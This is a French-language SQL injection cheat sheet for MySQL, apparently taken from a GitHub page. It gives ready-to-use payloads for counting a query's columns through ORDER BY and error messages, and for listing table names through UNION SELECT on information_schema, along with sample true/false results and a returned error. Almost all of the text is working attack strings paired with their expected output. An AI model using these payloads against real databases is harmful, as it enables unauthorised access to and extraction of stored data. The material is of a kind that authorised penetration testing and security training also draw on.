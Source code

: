 ### Déterminer le nombre de colonnes

#### Via « order by »

- ORDER BY N+1;

**Remarques :**

- Continuer d’incrémenter la valeur de N jusqu’à ce que la réponse soit false (une erreur).

**Exemples :**
Pour la requête suivante :
SELECT * FROM Table WHERE data = '[INJ]';

|     |     |
| --- | --- |
| 1′ ORDER BY 1–+ | True |
| 1′ ORDER BY 2–+ | True |
| 1′ ORDER BY 3–+ | True |
| 1′ ORDER BY 4–+ | False – La requête ne dispose que de 3 colonnes |
| -1′ UNION SELECT 1,2,3–+ | True |

#### Via les erreurs

AND (SELECT * FROM SOME_EXISTING_TABLE) = 1
**Remarques :**

- Cette syntaxe fonctionne si l’on connait le nom de la table dont on cherche le nombre de colonnes ; et si l’affichage des erreurs est activé.
- La requête retournera une erreur indiquant le nombre de colonnes dans la table, et non pas la requête en elle-même.

**Exemple :**
SELECT * FROM Tables WHERE data = [INJ]
Avec l’injection :
AND (SELECT * FROM Unknown_Table) = 1
Erreur retournée :
**
> Operand should contain 3 column(s)
**

### Récupérer le nom des tables

#### Via « Union »

UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;

**Remarques :**

- Version=9 pour MySQL v4
- Version=10 pour MySQL v5
